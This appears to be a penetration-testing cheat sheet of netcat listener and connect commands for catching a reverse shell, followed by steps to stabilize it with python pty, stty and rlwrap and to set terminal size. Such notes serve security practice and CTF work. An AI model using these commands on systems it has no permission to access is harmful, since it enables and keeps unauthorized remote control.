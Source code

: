 # nc
# Reverse shell
```
nc -lvnp <port-number>
```
```
nc <target-ip> <chosen-port>
```
# Shell stabilization
## Shell stabilization via python
```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
^Z
stty raw -echo; fg
```
## Shell stabilization via rlwrap
```
sudo apt install rlwrap
rlwrap nc -lvnp <port>
^Z
stty raw -echo; fg
```
# Setting rows and columns
```
Information from local machine
stty -a

Set rows and columns in reverse shell
stty rows <number>
stty cols <number>
```
